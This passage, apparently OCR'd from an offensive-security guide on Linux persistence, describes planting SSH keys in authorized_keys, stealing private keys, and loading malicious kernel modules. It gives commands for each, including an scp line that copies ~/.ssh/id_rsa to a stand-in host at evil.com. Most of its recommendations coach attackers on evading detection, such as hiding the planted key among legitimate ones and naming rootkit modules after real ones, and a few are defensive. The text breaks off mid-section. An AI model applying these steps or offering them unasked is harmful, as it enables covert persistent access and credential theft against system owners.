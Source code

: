     Adding Malicious SSH Keys:
        Description: By adding a malicious public key to the ~/.ssh/authorized_keys file of a user, attackers can gain persistent access to the system without needing passwords.
        Files to Modify:
            ~/.ssh/authorized_keys (User-specific keys)
            /root/.ssh/authorized_keys (Root access keys)
        Command Examples:

        bash

    echo "ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAmaliciouskey..." >> ~/.ssh/authorized_keys

    Recommendations:
        Use unique key pairs for different systems to avoid widespread detection.
        Hide the key entry among other legitimate keys to reduce suspicion.

Stealing SSH Keys for Lateral Movement:

    Description: Attackers can steal private SSH keys from compromised systems to gain access to other systems that use the same keys for authentication.
    Files to Target:
        ~/.ssh/id_rsa
        ~/.ssh/id_dsa
    Command Examples (Copying SSH keys to a remote server):

    bash

        scp ~/.ssh/id_rsa attacker@evil.com:/tmp/stolen_keys/

        Recommendations:
            Monitor outbound connections for unauthorized key transfers.
            Use SSH key encryption to protect sensitive private keys.

E. Kernel Module Persistence

Kernel modules are pieces of code that can be loaded into the Linux kernel at runtime. Malicious kernel modules (rootkits) can provide stealthy persistence and access to system-level functions.
Techniques and Tools:

    Loading Malicious Kernel Modules:
        Description: Attackers can load a kernel module that hides their presence and provides backdoor access. This method requires root privileges but offers high stealth.
        Files to Target:
            /lib/modules/$(uname -r)/extra/
            /etc/modules
        Command Examples (Loading a malicious module):

        bash

    insmod /lib/modules/$(uname -r)/extra/malicious_module.ko

    Recommendations:
        Name the malicious module similarly to legitimate modules to avoid detection.
        Ensure the module does not interfere with critical kernel functionality.

Modifying Existing Modules:

    Description: Instead of creating new modules, attackers can modify existing ones to include malicious code.
    Tools: rmmod, modprobe, custom module development.
    Command Examples:
